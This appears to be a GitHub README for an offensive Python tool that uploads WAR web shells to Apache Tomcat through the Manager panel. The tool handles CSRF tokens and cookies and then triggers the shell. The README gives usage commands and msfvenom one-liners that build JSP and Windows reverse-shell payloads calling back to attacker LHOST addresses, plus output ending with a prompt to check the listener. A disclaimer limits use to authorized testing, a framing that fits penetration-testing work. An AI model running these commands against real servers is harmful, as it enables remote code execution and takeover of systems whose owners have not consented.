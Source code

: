 # ☢️ Tomcat WAR File Uploader

A Python tool to upload `.war` web shells to Apache Tomcat via the Manager interface (`/manager/html`). Automatically handles CSRF protection and session cookies.
(Tested on Apache Tomcat/9.0.53)

## 🔧 Features

- Uploads WAR files to a Tomcat server
- Automatically extracts `JSESSIONID` and `CSRF_NONCE`
- Validates credentials before upload
- Triggers the uploaded shell if deployment succeeds

---

## 📦 Requirements

- Python 3.x
- `requests`
- `beautifulsoup4`

Install dependencies:

```bash
pip install -r requirements.txt
```

Or manually:

```bash
pip install requests beautifulsoup4
```

---

## 🚀 Usage

```bash
python3 tomcat_war_uploader.py --url http://<target>:8080 --username <user> --password <pass> --war-file shell.war
```

### Arguments

| Argument                  | Description                                                            |
|---------------------------|------------------------------------------------------------------------|
| `--url`                   | **(Required)** Base URL of the Tomcat server (e.g., `http://10.10.10.10:8080`) |
| `--username`              | **(Required)** Tomcat Manager username                                |
| `--password`              | **(Required)** Tomcat Manager password                                |
| `--war-file`              | WAR file to upload (default: `plugin.war`)                            |
| `--manager-panel`         | Manager panel path (default: `/manager/html`)                         |
| `--validate-credentials`  | Only validate credentials and exit (no upload)                        |

---

## 🧪 Examples

### Upload a WAR file

```bash
python3 tomcat_war_uploader.py --url http://10.10.10.10:8080 --username tomcat --password s3cret --war-file shell.war
```

### Validate credentials only

```bash
python3 tomcat_war_uploader.py --url http://10.10.10.10:8080 --username tomcat --password s3cret --validate-credentials
```

---

## 🎯 Generating a Reverse Shell with `msfvenom`

You can generate a `.war` file payload using `msfvenom` for either Linux (JSP-based) or Windows (EXE wrapped as `.war`):

### 🔹 For Linux (JSP reverse shell):

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.119.122 LPORT=443 -f war -o revshell.war
```

### 🔹 For Windows (EXE reverse shell wrapped in WAR):

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.15.83 LPORT=9002 -f war > revshell.war
```

> ⚠️ For Windows payloads, make sure the target Tomcat server supports deploying `.exe` via WAR (less common, more of a wrapper trick).

---

---

## ✅ Output

```text
[+] Parsed CSRF token: A1B2C3D4E5F6...
[+] War file uploaded successfully
[+] Shell triggered. Check your listener
```

---

## ⚠️ Disclaimer

This script is intended for **educational and authorized security testing purposes only**. Do **not** use it against systems without explicit permission.
